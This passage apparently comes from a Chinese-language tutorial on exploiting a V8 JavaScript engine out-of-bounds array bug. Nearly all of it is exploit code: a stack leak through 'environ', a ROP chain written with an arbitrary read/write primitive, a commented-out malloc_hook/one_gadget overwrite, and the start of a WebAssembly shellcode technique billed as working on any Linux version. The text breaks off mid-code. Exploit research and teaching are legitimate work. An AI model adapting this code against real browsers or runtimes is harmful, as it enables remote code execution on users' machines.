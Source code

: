```
let stack_addr=wr.read(environ_addr);
console.log("[*]stack address "+hex(stack_addr));

let rop_addr=stack_addr-200*rop.length;
console.log("[*]rop address "+hex(rop_addr))
for(let i=0;i&lt;rop.length;i++)
{
    wr.write(rop_addr+i*8,rop[i]);
}
for(let i=1;i&lt;10;i++)
{
    wr.write(rop_addr-i*8,retn);
}


//malloc hook
/*
malloc_hook=0x3C3B10+libc_base;
one_gadget=0xf0897+libc_base;
wr.write(malloc_hook,one_gadget);
*/


//oobArray[oobArray.length - 1] = 0x41414141;                //触发crash
```

### <a class="reference-link" name="%E9%80%9A%E8%BF%87Wasm%E5%86%99%E5%85%A5shellcode"></a>通过Wasm写入shellcode

适用情况:任意版本的Linux

```
class ChangeType{
    constructor(){
        this.buf=new ArrayBuffer(8);
        this.f64=new Float64Array(this.buf);
        this.u32=new Uint32Array(this.buf);
    }
    f2i(val){
        this.f64[0]=val;
        return this.u32[1]*0x100000000+this.u32[0];
    }
    i2f(val){
        this.u32[0]=parseInt(val%0x100000000);
        this.u32[1]=parseInt((val-this.u32[0])/0x100000000);
        return this.f64[0];
    }

}
function hex(x)
{
   return '0x' + (x.toString(16)).padStart(16, 0);
}
var ct=new ChangeType(); 

let oobArray = [1.1];  //float
let arrays=[];    
let objs=[];        //for leak                            
let maxSize = 1028 * 8;            //8224    

Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ =&gt; ( 
  {
    counter : 0,
    next() {
```